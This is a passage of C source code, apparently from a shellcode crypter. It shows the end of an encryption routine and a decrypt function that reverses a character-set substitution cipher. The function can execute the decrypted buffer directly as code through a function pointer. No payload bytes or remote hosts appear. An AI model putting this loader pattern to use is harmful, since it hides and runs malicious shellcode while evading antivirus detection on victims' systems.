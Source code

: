 ```c

    printf("\nEncrypted: ");
    for (int i = 0; i < payloadLength; i++)
    {
        printf("\\x%02x", (int)encrypted[i]);
    }

    printf("\n");

    return 0;
}

int decrypt(int characterSet[][CHARACTER_SET_SIZE], unsigned char *key, unsigned char *ciphertext, short execute, short debug)
{
    int payloadLength = strlen((char *)ciphertext);
    unsigned char originalPayload[payloadLength];

    for (int i = 0; i < payloadLength; i++)
    {
        int encryptedByte = (int)ciphertext[i];
        int keyByte = (int)key[i];

        for (int i2 = 0; i2 < CHARACTER_SET_SIZE; i2++)
        {
            if (characterSet[keyByte - FIRST_BYTE][i2] == encryptedByte)
            {
                if (debug)
                {
                    printf("Position: %d\n", i);
                    printf("Payload byte (dec): %d\n", (int)ciphertext[i]);
                    printf("Key byte (dec): %d\n", keyByte);
                    printf("Decrypted byte (dec): %d\n\n", characterSet[0][i2]);
                }

                originalPayload[i] = (unsigned char)characterSet[0][i2];
                break;
            }
        }
    }

    if (execute == 1)
    {
        void (*s)() = (void *)originalPayload;
        s();
    }
    else
    {
        printf("\nDecrypted: ");
        for (int i = 0; i < payloadLength; i++)
        {
            printf("\\x%02x", (int)originalPayload[i]);
        }

        printf("\n");
    }

    return 0;
}

unsigned char* parseByteString(char *byteString)
{
    unsigned int byteStringLength = strlen(byteString);
```